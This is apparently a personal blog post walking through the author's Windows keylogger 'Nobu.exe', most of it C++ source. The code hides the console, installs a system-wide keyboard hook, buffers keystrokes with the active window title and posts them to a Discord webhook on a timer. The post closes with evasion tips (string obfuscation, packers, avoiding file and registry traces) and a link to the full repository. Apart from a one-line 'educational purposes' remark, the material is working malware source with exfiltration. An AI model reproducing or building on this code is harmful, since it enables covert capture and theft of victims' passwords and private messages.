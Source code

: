 ```yaml
---
title: "Building My First Malware: Nobu.exe"
date: 2025-07-09 23:00:00 +0800
categories: [maldev]
tags: [cpp, discord, winapi, keylogger]
image:
  path: assets/Mal1/tir.jpg
  alt: Terror in resonance
---
```


> "Playing a game by youself is boring. You need a loser to crush so badly they can't recover." - Five
{: .prompt-quote }

Okay so I made a keylogger

Let’s be real for a second. After years of watching malware analysts dissect absolute garbage-tier EXEs made by script kiddies with too much free time and a cracked copy of Visual Studio, I thought: Hey. I can do that. Except less garbage. More cursed.
And here we are: a fully functioning Windows keylogger that lives in the shadows, siphons keystrokes like a digital vampire, and dumps the loot into a Discord webhook like it's sending confessions at 3AM.

All of this, by the way, is for educational purposes. Do not be a dumbass.

## The Anatomy of a Keylogger

### 1. Go Ghost or Go Home

```cpp
// Hide console window
void Stealth() {
#ifdef invisible
    HWND hwnd = GetConsoleWindow();
    if (hwnd) {
        ShowWindow(hwnd, SW_HIDE);
        FreeConsole();
    }
#endif
}

// Single instance check
hMutex = CreateMutexW(NULL, TRUE, L"Global\\MyKeyloggerMutex");
if (GetLastError() == ERROR_ALREADY_EXISTS) {
    if (hMutex) CloseHandle(hMutex);
    return 0;
}
```
{: .nolineno }

Hide the console. Check if there's already a clone of this malware running. If so, exit quietly like a ninja

---

### 2. Keyboard Hook Setup

```cpp
// Keyboard hook callback
LRESULT CALLBACK HookCallback(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode >= 0 && wParam == WM_KEYDOWN) {
        KBDLLHOOKSTRUCT* kbdStruct = reinterpret_cast<KBDLLHOOKSTRUCT*>(lParam);
        Save(kbdStruct->vkCode);
    }
    return CallNextHookEx(_hook, nCode, wParam, lParam);
}

void SetHook() {
    _hook = SetWindowsHookEx(WH_KEYBOARD_LL, HookCallback, NULL, 0);
}
```
{: .nolineno }

We jam a hook straight into WH_KEYBOARD_LL. This means every key, across the OS, goes through us. That’s right, whether you’re writing an email or confessing to murder in Notepad, I see it all.

---

### 3. Key Processing and Special Characters

```cpp
const std::map<int, std::string> keyname{
    {VK_BACK, "[BACKSPACE]"},
    {VK_RETURN, "\n"},
    {VK_SPACE, " "},
    // ... other special keys ...
};

int Save(int key_stroke) {
    std::string keystr;
    if (keyname.find(key_stroke) != keyname.end()) {
        keystr = keyname.at(key_stroke);
    } else {
        char key = MapVirtualKeyA(key_stroke, MAPVK_VK_TO_CHAR);
        if (key > 0) {
            keystr = std::string(1, key);
        }
    }
    // Append to buffer...
}
```
{: .nolineno }

You need to process it before storing. Special characters get converted. Everything else gets flushed into the buffer

---

### 4. Data Exfiltration to Discord

```cpp
bool SendToDiscord(const std::string& window_title, const std::string& keystrokes) {
    std::string json =
    "{"
    "   \"embeds\": [{"
    "       \"title\": \"Keystroke Capture\","
    "       \"color\": 16711680,"
    "       \"fields\": ["
    "           { \"name\": \"Active Window\", \"value\": \"" + EscapeJson(window_title) + "\", \"inline\": false },"
    "           { \"name\": \"Character Count\", \"value\": \"" + std::to_string(keystrokes.size()) + "\", \"inline\": true },"
    "           { \"name\": \"Logged Data\", \"value\": \"```" + EscapeJson(keystrokes) + "```\", \"inline\": false }"
    "       ],"
    "       \"timestamp\": \"" + GetISO8601Time() + "\""
    "   }]"
    "}";
    // HTTP POST via WinHTTP
}
```
{: .nolineno }

Look, spinning up a whole command-and-control server is effort, and I already wasted enough braincells. Discord webhooks? Easy. Fast. Fancy JSON. Stealthy as hell (unless you just dump the webhook link as a whole). Just make sure not to hit rate limits or maybe you enjoy watching logs disappear into the void.

![Webhook Output](assets/Mal1/jeba.png){: .normal w="700" h="300" style="border-radius: 16px;" }


---

### 5. Threading and Buffering

```cpp
std::string buffer;
std::mutex buffer_mutex;

void DiscordSender() {
    while (running) {
        Sleep(SEND_INTERVAL * 1000);
        
        std::string copy_keystrokes;
        std::string copy_window_title;
        {
            std::lock_guard<std::mutex> lock(buffer_mutex);
            if (buffer.empty()) continue;
            
            copy_keystrokes = buffer;
            copy_window_title = buffer_window_title;
            buffer.clear();
        }
        SendToDiscord(copy_window_title, copy_keystrokes);
    }
}
```
{: .nolineno }

Thread A logs your filthy typing habits. Thread B dumps it to Discord every few seconds. This is the digital equivalent of whispering secrets to a demon in the basement.

---

## Key Techniques and Challenges

### Evading Detection (add your self)

> + No file writes = no breadcrumbs
> + HTTPS = hide in plain sight
> + No registry = less whining
> + CPU use is subatomic
> + XOR your strings or obfuscate if you're paranoid, use packer or smthg

---

## What I Learned
- How keyboard hooks actually work
- Basic WinHTTP usage
- Thread sync with mutexes
- Buffering vs streaming exfiltration

---

## Sum up

This project made me realize something horrible and beautiful: malware is easy. Terrifyingly easy.
A few lines of C++, a bit of WinAPI black magic, and you’ve got a fully operational surveillance drone.
So... maybe trust less. Click less.
And always check your Task Manager for that one weird mutex.

---

> **GitHub Repo:**  
> [Nobu](https://github.com/FanzyBear/Nobu)
{: .prompt-info }


---